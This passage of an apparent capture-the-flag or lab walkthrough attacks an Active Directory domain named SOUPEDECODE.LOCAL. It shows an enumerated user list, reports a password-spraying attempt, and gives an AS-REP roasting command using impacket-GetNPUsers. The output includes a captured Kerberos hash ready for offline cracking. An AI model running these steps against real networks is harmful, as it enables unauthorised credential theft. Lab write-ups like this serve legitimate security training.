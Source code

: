 ```
dyvonne18
qxenia19
rreed20
icody21
ftom22
ijake23
rpenny24
jiris25
colivia26
pyvonne27
zfrank28
ybob317
file_svc
charlie
qethan32
..................<REST_OF_USERS>.........................................
```

We then perform another `password spraying` attack, this time against the full user list, to see if we can obtain any additional credentials besides those for `charlie`.

The attack does not yield any new results, leaving us with only the `charlie` account.

We continue exploring possible attack vectors.

# AS REP ROAST ATTACK

We look for accounts that do not require pre-authentication.

```bash
impacket-GetNPUsers SOUPEDECODE.LOCAL/ -no-pass -usersfile users.txt
```

Info:
```
..................<REST_OF_USERS>.........................................
[-] User caiden36 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User xbella37 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User smark38 doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$zximena448@SOUPEDECODE.LOCAL:29e708614452e851d9d95cf8cd8108f7$331de3dd589e0301b90d4f8d2f1c3a2ed03ecc6c5fce197018923441eac870373beb7619c90c2842e25901f6b4956c60d83f264840debc174e3bcbbc6a2409debd468578793b98855b005b69957b74d9810c642b893eb7b55d3bcd953434bce73a2ba6baaea7f667f172fecd4cdc3d5c22532b73cc1aae71013cd55c3987587ee66e336d23f1669137a33a7defa1ee7e3483c2f5b0f3e3485f0fad41f79966963804ec726fd526e9a32f332f8cbdd3feffb2ba1b9262cdd145e90f31835c4685f64beba5df1e41e28b4a74bf2648ad2813dd2caa210bd09ed0406403472616e9fe1eb17231f0388dfe46549d0b11462ea4dd798f65d8
[-] User fmike40 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User yeli41 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User knina42 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User vhelen43 doesn't have UF_DONT_REQUIRE_PREAUTH set
..................<REST_OF_USERS>.........................................
```
We obtain the hash for the user zximena448, since this account does not require pre-authentication.
